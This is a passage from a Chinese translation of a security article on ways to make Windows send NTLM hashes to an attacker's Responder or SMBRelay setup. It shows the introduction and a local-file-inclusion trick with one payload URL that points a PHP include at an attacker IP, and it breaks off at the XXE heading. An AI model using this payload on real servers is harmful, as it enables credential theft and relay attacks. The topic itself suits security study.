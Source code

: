 > 原文链接: https://www.anquanke.com//post/id/85791 


# 【技术分享】窃取NTLM HASH的多种奇妙方法


                                阅读量   
                                **153176**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：osandamalith.com
                                <br>原文地址：[https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

译文仅供参考，具体内容表达以及含义原文为准

**[![](https://p0.ssl.qhimg.com/t01ae098bab6d941ee9.png)](https://p0.ssl.qhimg.com/t01ae098bab6d941ee9.png)**

****

翻译：[pwn_361](http://bobao.360.cn/member/contribute?uid=2798962642)

稿费：140RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**前言**

当我们想使用Responder工具窃取Windows的NTLM HASH时，经常会有一个疑问，用什么办法才能让Windows系统发送NTLM HASH值呢？经过一些实验后，我发现办法有很多，现在，我乐意将我发现的一些很酷的东西分享给大家，所以写了这篇文章。需要说明的是，在我们下面的攻击场景中，你不仅可以使用Responder偷取到NTLM HASH值，还可以直接使用SMBRelay攻击方法。

<br>

**本地文件包含(LFI)**

在PHP中，利用include()函数可以实现解析网络路径的目的(在这里，大家自己想一下，为什么需要触发网络路径解析，触发网络路径解析后，为什么responder工具就有可能会抓取到NTLM HASH值呢？)。利用方法如下图：

```
http://host.tld/?page=//11.22.33.44/@OsandaMalith
```

下图是实验结果：

[![](https://p5.ssl.qhimg.com/t01c55a8c4ac2ee3766.png)](https://p5.ssl.qhimg.com/t01c55a8c4ac2ee3766.png)

<br>

**XML外部实体注入(XXE)**
